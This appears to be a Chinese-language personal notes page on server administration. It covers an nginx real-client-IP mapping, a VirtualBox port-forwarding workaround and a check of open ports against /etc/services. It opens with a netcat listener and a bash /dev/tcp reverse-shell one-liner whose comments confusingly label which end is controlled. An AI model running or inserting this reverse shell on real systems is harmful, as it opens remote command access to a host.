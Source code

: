 
```bash 
# 被控端执行  
nc -lvp 65535
# 控制端执行 
bash -i >& /dev/tcp/<被控端ip>/65535 0>&1
```

# nginx 获取cdn真实用户ip 
```conf
# client_real_ip 即为用户真实IP,可直接用于替换 remote_addr 
    map $http_x_forwarded_for $client_real_ip {
    "" $remote_addr;
    # fix: 兼容ipv6
    ~^(?P<firstAddr>[0-9a-fA-F:.]+),?.*$ $firstAddr;
    }
```

# virtualbox - 从主机端口80到VirtualBox端口80的端口转发不起作用 
此次问题实际出现是在`windows`上, 理论上说`linux`下若使用`nat`功能可能也会出现该问题(至于为什么用`nat`,`virtualbox`似乎并不支持桥接网卡,因此要为虚拟机分配物理`ip`似乎就只能在物理机绑定多个`ip`,然后`nat`转发到虚拟机中), `virtualbox`在转发`80`端口时似乎会与物理机的`80`冲突,从而导致转发无效,这个可能是因为我物理机也启用了`IIS`的原因.好吧,以上都是些废话,我也不知道在说些什么,下面看解决方案.
- 解决方案
 1. 我是用的 `windows`的端口转发解决的, `virtualbox`在`nat`的时候转发一个其他端口(比如`8080`)到内部的`80`, 然后在`windows` 在进行一次转发,将绑定的`ip`的`80`端口转发到`8080`上,这样也可以解决,骚操作看 [`windows命令收集`-`端口转发`](/2022/命令收集/#3-windows-端口转发)
 2. 还有个说的是用管理员身份运行`virtualbox`,也可以解决,不过我没有验证过 

 > [https://www.coder.work/article/6503907](https://www.coder.work/article/6503907)


# 服务器默认端口优化 
1. 检查所有非22开启的端口：`netstat -lntp`  
```bash
$> netstat -lntp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      1317/master         
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      1/systemd           
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      1569/sshd           
tcp6       0      0 ::1:25                  :::*                    LISTEN      1317/master         
tcp6       0      0 :::111                  :::*                    LISTEN      1/systemd           
tcp6       0      0 :::22                   :::*                    LISTEN      1569/sshd 
```  

2. 查询`/etc/services`下端口对应的服务：`grep -E "25|111/" /etc/services `   
```bash 
$> grep -E "\ 25/|\ 111/" /etc/services 
smtp            25/tcp          mail
smtp            25/udp          mail
sunrpc          111/tcp         portmapper rpcbind      # RPC 4.0 portmapper TCP
sunrpc          111/udp         portmapper rpcbind      # RPC 4.0 portmapper UD
```

